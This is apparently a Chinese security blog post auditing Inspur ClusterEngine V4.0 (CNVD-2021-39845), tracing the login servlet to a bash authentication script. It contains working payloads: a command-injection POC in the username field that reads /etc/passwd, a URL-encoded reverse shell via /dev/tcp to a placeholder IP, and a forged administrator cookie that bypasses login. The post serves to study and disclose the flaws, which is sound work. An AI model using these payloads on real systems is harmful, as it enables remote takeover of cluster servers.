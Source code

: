 ```yaml
---
layout: about
category: about
Researchname:  浪潮ClusterEngineV4.0代码审计历程
toc: true
author: Bin4xin
permalink: /about/inspur-Cluster-Engine-V4.0-code-aduit-walkthrough/
---
```


## *CNVD-2021-39845 - 浪潮ClusterEngine V4.0存在逻辑缺陷漏洞*

- 2021年 5月21日 星期日 00时11分58秒 CST
    - 最近一直在看代码，正好前两天在网上冲浪的时候看到浪潮的一个RCE，就拿过来分析一下试试看
- 2021年 5月31日 星期一 22时55分49秒 CST
    - 上传相关代码至[*bigger-than-bigger*仓库：点击查看相关代码](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code)

先看`web.xml`定义的servlet；
```xml
<servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>
        com.inspur.tsce4.login.Servlet
    </servlet-class>
</servlet>
```
指向`com.inspur.tsce4.login.Servlet`类，直接去看login：`WEB-INF/classes/com/inspur/tsce4/login/Servlet`类：

```java
public class Servlet extends HttpServlet {
    public Servlet() {
    }
    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        request.setCharacterEncoding("utf-8");
        Management manage = new Management(request, response);
        manage.doResponse();
    }
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}
```
继承了HttpServlet，dopost方法调用Management：


```java
public class Management {
    
    HttpServletRequest request;
    HttpServletResponse response;
    Command command = new Command();

}

```
我个人不太喜欢贴大段代码，自己写着累，看的人也累，因为代码只更像是我们生活中聊天时候的互动手势，一定是辅助作用而不是表达主题；于是我便大致画了一下我理解的web认证Java代码跳转逻辑，方便理解：

![inspur-code-running-logic.png](https://i.loli.net/2021/11/18/SObV3jkL9DGlWMd.png)


- `command()` -> 对应是运行服务器上的`user_auth.sh`脚本：
    - [点击以查看代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code/userAuth.sh)
    - 来看看代码主要运行逻辑，主要为以下逻辑：
    ![user-auth-logic.png](https://i.loli.net/2021/11/18/LI2u7s48kE6cRfw.png)

运行程序先判断传入参数个数紧 接着对第一个传入参数进行简单的特殊字符过后进行比对，代码如下：

```bash
uname echo $1 | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
if [ a"$uname"b != a"$1"b ]; then
   echo the user $1 format is illegal
   echo error:1
   exit 1;
fi

#简单做了一个过滤实验，但是一对符号如() ''等都无法过滤
➜ echo a-d-c.\/ | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
adc

```
其中进行算法识别的代码只能在redhat系统运行，中文环境下的redhat系统`crypt`换成`加密`即可：

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) crypt.*/\1/p')` 

<a href=""> <i class="fa fa-hand-o-down"></i></a> 

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p')`

```bash
➜ docker run -d hjd48/redhat
➜ docker exec -it c2739bba0d86 /bin/bash

##redhat 6国内换源
bash-4.1# cd /etc/yum.repos.d/ && mkdir tmp && mv *.repo tmp 
bash-4.1# wget -O /etc/yum.repos.d/CentOS-Base.repo https://static.lty.fun/%E5%85%B6%E4%BB%96%E8%B5%84%E6%BA%90/SourcesList/Centos-6-Vault-Aliyun.repo

##encrypt 获取过程
bash-4.1# uname -a
Linux c2739bba0d86 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
bash-4.1# cat /etc/issue
Red Hat Enterprise Linux Server release 6.3 (Santiago)
Kernel \r on an \m

bash-4.1# passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p'
SHA512

##用户认证过程
bash-4.1# bash user_auth.sh root zanghun123
root
arootb
arootb
$6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
encrypt: SHA512
s8LxZk5w
passwd_shadow: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
passwd_t: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
true
```

### 0x01：远程代码执行

用户认证的逻辑基本如此，我们可以看到在web应用层针对用户的认证就是bash代码进行用户哈希值比对的结果，是以这样的参数传入：`bash user_auth.sh $username $passwd`

所以就导致了RCE，原理也十分简单，我们在web层的传入`$username 和 $passwd `两个参数可控，Linux环境下对传入参数使用符号：<code> $ ` () </code> 进行变量替换即可：

```
bash-4.1# cd touch-test/
bash-4.1# ls
bash-4.1# pwd
/tmp/touch-test
bash-4.1# $(touch id)
bash-4.1# ls
id
bash-4.1# $(id)
bash: uid=0(root): command not found
```
所以传入参数进行RCE即可；
![user_auth_rce.png](https://i.loli.net/2021/11/18/gIdstxBcKfaWMA9.png)

poc代码：
```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

```

#### 参考

- [浪潮ClusterEngineV4.0 任意命令执行](https://github.com/hhroot/2021_Hvv/blob/main/%E6%B5%AA%E6%BD%AE%20ClusterEngineV4.0%20%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md
)

### 0x02：Cookie伪造登录

- `com.inspur.tsce4.Management.login() - Management.getCookie() - Management.loginOut()`

```java
public class Management {
private void getCookie() {
        String key = this.request.getParameter("name");
        JSONObject result = new JSONObject();
        Cookie[] cookies = this.request.getCookies();
        Cookie cookie = null;
        Cookie userCookie = null;
        Cookie L_TIMES_cookie = null;
        if (cookies != null) {
            for(int i = 0; i < cookies.length; ++i) {
                if (cookies[i].getName().equals(key)) {
                    cookie = cookies[i];
                } else if (cookies[i].getName().equals("username")) {
                    userCookie = cookies[i];
                } else if (cookies[i].getName().equals("L_TIMES")) {
                    L_TIMES_cookie = cookies[i];
                }
            }
        }

        if (userCookie == null && key.equals("username")) {
            userCookie = cookie;
        }

        if (clearUserList.containsKey(userCookie.getValue()) && userCookie != null && key.equals("vertifyUser")) {
            Long now = (new Date()).getTime();
            Long addTime = ((Date)clearUserList.get(userCookie.getValue())).getTime();
            if (now - addTime > 43200000L) {
                clearUserList.remove(userCookie.getValue());
            } else if (addTime - Long.parseLong(L_TIMES_cookie.getValue()) > 0L) {
                Cookie cookieAuth = new Cookie("vertifyUser", "false");
                cookieAuth.setMaxAge(43200);
                cookieAuth.setPath("/");
                cookieAuth.setHttpOnly(true);
                this.response.addCookie(cookieAuth);
                cookie = null;
            }
        }

        try {
            if (cookie != null) {
                result.put("result", "true");
                result.put("value", cookie.getValue());
            } else {
                result.put("result", "false");
            }

            JsonUtil.respnseJson(this.response, result.toString());
        } catch (JSONException var10) {
            JsonUtil.respnseJson(this.response, this.nullResJson.toString());
        }

    }
}
```

分析得：用户认证Cookie不存在随机性、时效性。所以我们可以直接伪造Cookie登入即可：`lang=cn; username=root; userType=administrator; vertifyUser=true`

![user_auth_RF.png](https://i.loli.net/2021/11/18/Go4jpkAwsNKRWUz.png)

直接使用Cookie插件ModHeader带入Cookie，直接登入：

![inspur_cookie_SF.png](https://i.loli.net/2021/11/18/sUAdtS41ia9cMoL.png)

---

以上。


